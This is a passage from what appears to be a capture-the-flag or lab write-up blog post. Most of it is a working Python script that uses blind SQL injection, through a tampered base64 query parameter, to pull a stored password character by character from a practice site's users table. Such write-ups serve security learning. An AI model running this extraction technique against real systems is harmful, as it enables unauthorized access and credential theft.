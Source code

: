     # format the response to only keep our modified query
    mod_r = urldecode(r.headers['Location'])
    mod_r = mod_r.split('query=')
    bin_data = binascii.a2b_base64(mod_r[1] + '===')
    bin_data = binascii.hexlify(bin_data)
    bin_data = bin_data[96:]
    bin_data = binascii.unhexlify(bin_data)
    bin_data = binascii.b2a_base64(bin_data, newline=False)
    print("Binary Data String: " + str(bin_data, 'utf-8'))

    # send the modified query to the search site
    payload = {'query': bin_data}
    response = requests.get(target + '/search.php?', params=payload, headers=headers, allow_redirects=False)
    print(response.text)
    return response


# Checking if we can connect to the target, just in case...
r = requests.get(target, headers=headers)
if r.status_code != requests.codes.ok:
    raise ValueError('Couldn\'t connect to target :(')
else:
    print('Target reachable. Starting character parsing...')

# Password is 32 characters long
start_time = time.time()
for i in range(1,33):
    for c in allChars:
        print("Trying Character: " + c)
        print("Password so far: " + password)
        resp = send_query('select * from jokes where ascii(substring((select password from users) from %d for 1))=%d #' % (i, ord(c)))
        if 'Halloween' in resp.text:
            password += c
            break

print('Password: ' + password)
print("--- %s seconds ---" % (time.time() - start_time))
</pre>

It took a while on my VM though:

<img class="alignnone size-full wp-image-333" src="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-26_14h14_56.png" alt="" width="990" height="63" srcset="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-26_14h14_56.png 990w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-26_14h14_56-300x19.png 300w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-26_14h14_56-768x49.png 768w" sizes="(max-width: 990px) 100vw, 990px" />